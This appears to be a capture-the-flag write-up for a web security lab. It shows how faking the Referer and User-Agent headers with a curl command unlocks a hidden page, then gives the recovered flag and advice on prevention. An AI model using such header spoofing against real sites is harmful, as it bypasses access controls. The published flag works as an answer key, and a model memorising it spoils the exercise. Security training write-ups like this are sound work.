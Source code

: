 # HTTP Header Spoofing Vulnerability

## Overview
Access to secret content is possible by faking HTTP headers. The site checks for specific `Referer` and `User-Agent` values to reveal the flag.

---

## How It Works

On the copyright page:
```
http://<IP_ADDRESS>/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f
```
HTML comments in the source Code say:
- Use Referer: `https://www.nsa.gov/`
- Use User-Agent: `ft_bornToSec`

**Exploit with curl:**
```bash
curl "http://<IP_ADDRESS>/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" \
  --user-agent "ft_bornToSec" \
  --referer "https://www.nsa.gov/"
```
Or use a browser extension (like ModHeader) to set these headers and refresh the page.

---

## Flag

`f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---

## Prevention

1. **Don't rely on headers for security:** Use proper authentication.
2. **Enforce server-side checks:** Control access with sessions or tokens.
3. **WAF:** Block suspicious header manipulation.
4. **Security headers:** Use CSP and other security headers.

---